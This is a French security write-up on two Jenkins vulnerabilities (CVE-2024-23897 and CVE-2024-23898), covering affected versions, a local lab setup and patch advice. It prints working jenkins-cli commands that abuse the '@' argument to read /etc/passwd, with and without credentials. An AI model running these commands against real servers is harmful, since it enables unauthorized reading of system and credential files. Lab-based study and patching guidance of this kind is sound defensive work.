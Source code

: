 # Jenkins : Deux vulnérabilités critiques (CVE-2024-23897 - CVE-2024-23898) Exploitation & Correctifs



## Introduction

Les chercheurs en sécurité de SonarSource ont découvert deux failles de sécurité dans Jenkins : CVE-2024-23897 et CVE-2024-23898. Jenkins a été informé de la découverte de ces vulnérabilités le 13 novembre 2023.

Deux vulnérabilités sont expliquées :

* 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟳 : 

C'est une vulnérabilité qui permet à un attaquant non authentifié, et disposant de la permission "overall/read", de lire les données des fichiers présents sur le serveur. Sans cette permission, il est possible de lire les premières lignes des fichiers. 

Versions vulnérables : Les versions antérieures à 2.442 et 2.426.3 LTS

* 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟴 : 

󠁝󠀠C'est une vulnérabilité qui  permet à un attaquant d'exécuter des commandes à distance en incitant un utilisateur à cliquer sur un lien malveillant. Elle est de type "cross-site WebSocket hijacking (CSWSH)".

Versions vulnérables : La version 2.217 à la version 2.441 (incluses toutes deux), LTS de la version 2.222.1 à la version 2.426.2 
	(toutes deux incluses).


  ## Exploitation de 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟳


J'ai hosté Jenkins avec le projet Vulnhub disponible sur https://github.com/vulhub/vulhub.

![VulnHub](/images/jenkinslocalhost.png)

### Détection de la vulnérabilité 

![Nuclei](/images/jenkinsnuclei.png)


### Exploitation de la vulnérabilité 

Un utilisateur disposant des identifiants de connexion peut lire un fichier au complet (exemple : /etc/passwd). 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ -auth admin:admin connect-node "@/etc/passwd"
```
![Utilisateur authentifié](/images/jenkins_user_authentified.png)


Un attaquant non authentifié ou sans les autorisations de lecture globales nécessaires, peut seulement lire 3 lignes : Lire la première ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ who-am-i "@/etc/passwd"
```

![POC 1](/images/poc1.png)


Lire la deuxième ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ enable-job "@/etc/passwd"
```
![POC 2](/images/poc21.png)


Lire la troisième ligne 

```
java -jar jenkins-cli.jar -noCertificateCheck -s http://localhost:8080/ help "@/etc/passwd"
```

![POC 3](/images/poc31.png)



## Exploitation de 𝗖𝗩𝗘-𝟮𝟬𝟮𝟰-𝟮𝟯𝟴𝟵𝟴

On installe Jenkins 2.440 qui est une version vulnérable avec Docker.

Les commandes suivantes permettent d'installer et de lancer Jenkins en local.

```
sudo docker pull jenkins/jenkins:2.440-jdk17
```
```
sudo docker run -p 8080:8080 jenkins/jenkins:2.440-jdk17

```

![Dashboard Jenkins 2.440](/images/dashboardjenkins.png)

### Exploitation de la vulnérabilité 


{{< youtube 7Ox6g7S-1ag >}}


## Correctifs

Mettre à jour la dernière version de Jenkins. Un correctif est déjà disponible.

https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314
